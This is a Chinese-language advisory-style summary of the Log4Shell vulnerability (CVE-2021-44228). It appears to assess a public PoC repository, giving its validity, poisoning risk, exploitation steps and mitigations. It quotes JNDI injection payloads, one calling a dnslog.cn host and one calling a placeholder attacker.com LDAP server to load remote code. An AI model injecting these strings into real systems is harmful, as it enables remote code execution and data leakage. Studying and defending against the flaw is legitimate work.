 ## CVE-2021-44228-Apache Log4j2-JNDI注入

**漏洞编号:** CVE-2021-44228

**漏洞类型:** JNDI注入

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 2.0-beta9 to 2.15.0 (不包括安全版本 2.12.2, 2.12.3, and 2.3.1)

**利用条件:** 目标应用程序使用受影响的Log4j2版本，并且允许消息查找替换

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j2 中的一个严重漏洞，它允许未经身份验证的远程代码执行。攻击者可以通过将恶意的 JNDI 查找字符串注入到 Log4j2 可以记录的任何输入中来利用此漏洞。当 Log4j2 尝试解析并执行该 JNDI 查找时，它可能会从攻击者控制的 LDAP 或其他 JNDI 相关端点加载任意代码。

**有效性：**
提供的 PoC 代码是有效的。它使用 `${jndi:dns://${sys:java.version}.z72ouf.dnslog.cn}` 格式的 JNDI 注入，该注入会触发 DNS 查询到 `z72ouf.dnslog.cn`，从而验证漏洞是否已成功利用。 `${sys:java.version}` 获取Java版本号。

**投毒风险：**
此仓库中不太可能存在作者隐藏的投毒代码（0%）。提供的文件看起来直接针对演示和利用 CVE-2021-44228 漏洞。 `pom.xml` 文件定义了 log4j-core 和 log4j-api 的依赖项。`log4j2.xml` 文件配置了基本的日志记录。 `CVE202144228.java` 文件包含利用该漏洞的有效负载，该负载会生成 DNS 查询以进行验证。 由于该PoC的主要作用是为了验证漏洞，而非植入后门，因此认为投毒风险低。

**利用方式：**
1.  攻击者找到应用程序中记录用户可控输入的位置。 这些位置可能包括 HTTP header，POST 数据，GET 参数等，总之，所有程序日志可以记录的地方。
2.  攻击者将恶意 JNDI 查找字符串（例如`${jndi:ldap://attacker.com/Exploit}`）注入到此输入中。
3.  当应用程序记录此输入时，Log4j2 会尝试解析 JNDI 查找。
4.  Log4j2 会连接到攻击者控制的 LDAP 服务器（或其他的 JNDI 服务）。
5.  攻击者的 LDAP 服务器返回一个包含恶意 Java 类的响应。
6.  Log4j2 加载并执行此恶意 Java 类，从而允许攻击者在目标系统上执行任意代码。
7. 缓解措施包括升级 Log4j2 到 >=2.17.0 版本，禁用 JNDI 查找，或设置 `log4j2.formatMsgNoLookups=true`。


**项目地址:** [ZacharyZcR/CVE-2021-44228](https://github.com/ZacharyZcR/CVE-2021-44228)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
